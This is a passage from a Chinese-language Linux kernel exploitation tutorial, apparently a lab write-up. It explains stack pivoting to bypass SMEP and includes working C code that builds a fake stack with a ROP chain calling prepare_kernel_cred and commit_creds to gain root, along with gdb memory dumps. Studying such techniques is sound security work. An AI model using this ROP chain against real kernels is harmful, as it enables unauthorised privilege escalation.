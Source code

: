 在第一种情况(任意读写栈)，我们成功绕过了smep并获取root shell，接下来看看第二种情况。

### <a class="reference-link" name="Pivoting%20the%20stack"></a>Pivoting the stack

很明显第二种情况我们无法在ret地址后面部署更多的gadgets，所以我们使用在用户程序经常使用的`栈迁移`。这就需要修改rsp/esp的gadgets，这对我们巨量的gadgets一般不成问题，只需保证gadgets可执行，并且那个给rsp/esp赋值的常量是地址对齐的：

```
unsigned long mov_esp_pop2_ret = 0xffffffff8196f56a; // mov esp, 0x5b000000 ; pop r12 ; pop rbp ; ret
```

那么在我们用这个gadget覆盖返回地址前，我们得建立那个地址上的fake_stack。因为esp将会变为**0x5b000000**，所以使用mmap一块内存在那里，并填充ROP链：

```
unsigned long *fake_stack;
void build_fake_stack(void)`{`
    puts("[*] Build fake stack start");
    fake_stack = mmap((void *)(0x5b000000 - 0x1000), 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000/8;
    fake_stack[0] = 0xdeadbeef;
    fake_stack[off++] = 0x0;     //pop r12
    fake_stack[off++] = 0x0;    //pop rbp
    fake_stack[off++] = pop_rdi_ret;    //ret
    fake_stack[off++] = 0x0; // rdi &lt;- 0
    fake_stack[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    fake_stack[off++] = pop_rdx_ret;
    fake_stack[off++] = 0x8; // rdx &lt;- 8
    fake_stack[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    fake_stack[off++] = 0x0; // dummy rbx
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = mov_rdi_rax_jne_pop2_ret; // rdi &lt;- rax
    fake_stack[off++] = 0x0; // dummy rbx
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    fake_stack[off++] = swapgs_pop1_ret; // swapgs
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = iretq; // iretq frame
    fake_stack[off++] = user_rip;
    fake_stack[off++] = user_cs;
    fake_stack[off++] = user_rflags;
    fake_stack[off++] = user_sp;
    fake_stack[off++] = user_ss;
`}`
```

这里从**0x5b000000-0x1000**开始获取0x2000(两页)的空间(rwx)：0x5afff000 ~ 0x5b001000，这时为了防止ROP链在调用提权函数时`栈增长`，然后还需提前向**0x5b000000~0x5afff000**写入数据引发缺页写入页表，自己测试一下：

```
#注释fake_stack[0] = 0xdeadbeef;前
gdb-peda$ x/8gx 0x5b000000
0x5b000000:    0x0000000000000000    0x0000000000000000
0x5b000010:    0xffffffff81006370    0x0000000000000000
0x5b000020:    0xffffffff814c67f0    0xffffffff81007616
0x5b000030:    0x0000000000000008    0xffffffff81964cc4
gdb-peda$ x/8gx 0x5afff000
0x5afff000:    0x00000000deadbeef    0x0000000000000000
0x5afff010:    0x0000000000000000    0x0000000000000000
0x5afff020:    0x0000000000000000    0x0000000000000000
0x5afff030:    0x0000000000000000    0x0000000000000000
#注释后
gdb-peda$ x/8gi 0x5b000000
   0x5b000000:    add    BYTE PTR [rax],al
   0x5b000002:    add    BYTE PTR [rax],al
```